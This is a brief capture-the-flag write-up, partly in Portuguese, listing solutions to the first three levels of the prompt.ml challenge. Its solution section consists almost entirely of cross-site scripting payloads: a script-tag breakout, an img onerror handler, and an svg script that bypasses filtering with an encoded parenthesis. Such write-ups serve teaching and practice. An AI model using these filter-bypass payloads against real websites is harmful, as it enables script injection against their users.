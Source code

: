 # Prompt.ml

###### Solved by @Cubano2
> This is a CTF about 

## About the Challenge  
Aqui neste write-up se encontra as respostas do site prompt.ml  

## Solution  
level 0 "><script>prompt(1)</script>
level 1 <img src=1 onerror='prompt(1)'
level 2 <svg><script>prompt&#40;1)</script>

